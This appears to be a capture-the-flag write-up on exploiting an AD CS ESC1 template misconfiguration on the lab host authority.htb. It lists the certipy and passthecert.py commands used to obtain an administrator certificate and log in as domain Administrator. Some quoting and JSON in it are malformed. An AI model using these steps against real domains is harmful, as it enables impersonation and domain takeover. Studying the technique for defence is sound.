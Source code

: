 # ADCS

AD CS is a Microsoft server role solution for public key infrastructure (PKI) that provides various services within an AD environment, in the form of certificate-based client authentication.
Misconfigurations in certificate templates bring about various vulnerabilities, which we will explore in this writeup. 

## Enumeration

```$ certipy find -u 'username@authority.htb' -p 'password' -dc-ip 10.10.11.222 -enabled```

```
{
  "Certificate Authorities": {
    "0": {
      "CA Name": "AUTHORITY-CA",
      "DNS Name": "authority.authority.htb",
      "Certificate Subject": "CN=AUTHORITY-CA, DC=authority, DC=htb",
      "Permissions": {
          "512": [
            "AUTHORITY.HTB\\Authenticated Users"
          ]
        }
      }
    }
  },
  "Certificate Templates": {
    "1": {
      "Template Name": "CorpVPN",
      "Display Name": "Corp VPN",
      "Certificate Authorities": [
        "AUTHORITY-CA"
      ],
      "Enabled": true,
      "Client Authentication": true,
      "Enrollee Supplies Subject": true,
      "Certificate Name Flag": [
        "EnrolleeSuppliesSubject"
      ],
      "Extended Key Usage": [
        "Client Authentication",
        "KDC Authentication"
      ],
      "Requires Manager Approval": false,
      "Authorized Signatures Required": 0,
      "Permissions": {
        "Enrollment Permissions": {
          "Enrollment Rights": [
            "AUTHORITY.HTB\\Domain Computers",
          ]
        }
        }
      },
      "[!] Vulnerabilities": {
        "ESC1": "'AUTHORITY.HTB\\\\Domain Computers' can enroll, enrollee supplies subject and template allows client authentication"
      }
    },
  }
```

for example, the template 'CorpVPN' is vulnerable to 'ESC1', where an enrolle from the Domain Computers security group can supply a subject for client authentication, effectively allowing the impersonation of users in the domain.

## ESC1 Exploitation

A domain account with enrollment right is able request a certificate with the UPN of the victim account:
```$ certipy req -u 'pc01$' -p 'password' -template CorpVPN -upn 'administrator@authority.htb -target authority.authority.htb -ca AUTHORITY-CA'```
```
[*] Successfully requested certificate
[*] Request ID is 8
[*] Got certificate with UPN 'administrator@authority.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

## generate a crt and key for later authentication
```$ certipy cert -pfx administrator.pfx -nokey -out administrator.crt```
```[*] Writing certificate and  to 'administrator.crt'```

```$ certipy cert -pfx administrator.pfx -nocert -out administrator.key```
```[*] Writing private key to 'administrator.key'```
## authentication using passthecert.py
```$ python passthecert.py -action whoami -dc-ip 10.10.11.222 -crt administrator.crt -key administrator.key -domain authority.htb -new-pass password```
```
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[*] You are logged in as: HTB\Administrator
```

if the regkey ```HKLM:\SYSTEM\CurrentControlSet\Services\Kdc\StrongCertificateBindingEnforcement``` is set to 2, attackers will have to supply the szOID_NTDS_CA_SECURITY_EXT value when making a certificate request.
PS one liner that checks for that is ```If (Test-Path "HKLM:\SYSTEM\CurrentControlSet\Services\Kdc\StrongCertificateBindingEnforcement") {(Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\Kdc").StrongCertificateBindingEnforcement}```
